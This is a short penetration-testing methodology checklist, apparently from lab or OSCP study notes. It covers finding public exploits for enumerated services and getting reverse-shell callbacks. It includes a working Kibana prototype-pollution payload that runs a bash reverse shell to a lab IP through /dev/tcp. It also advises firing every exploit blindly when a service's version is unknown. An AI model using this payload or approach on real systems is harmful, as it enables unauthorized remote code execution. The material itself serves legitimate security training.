 # Methodology

After running enumeration and identifying a possible vulnerable service, we shold look everything up!

* [ ] If we have version number look it up on searchsplot
* [ ] If the exploit works perfect
* [ ] if it doesnt work maybe the reverse shell ur using does not work try different ways to get a callback, do nc, bash, python, and all these in different ways
* [ ] If the exploit is in the format of 'command', remember in order to make things work you have to do this in between ""

Take a look at this example&#x20;

![](<../../.gitbook/assets/image (79).png>)

Notice how in order to make bash understand that it is in quotations we place \ before " and before the last ".&#x20;

Also notice the format ' "and verything that requires " is in quotation marks in the middle'&#x20;

* [ ] If we try a couple and they dont work do not try to troubleshoot the exploit&#x20;
* [ ] look it up on github, someone might have already done something to the exploit
* [ ] if we do not have version number, fire all exploits prioritize rce over anything else and one will land i promise.
* [ ] if we do not have it on searchsploit just look it up on google, look what happened with sirol and kibana
* [ ] also cycle through open ports and see if it doesnt work and it is supposed to see if maybe the exploit needs to change the reverse shell method

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/192.168.49.242/5601 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

Take a look at this example the exploit required us instead of executing a normal reverse shell we had so specify to bash -c to execute the reverse shell.

{% embed url="https://guide.offsecnewbie.com/general-methodology" %}

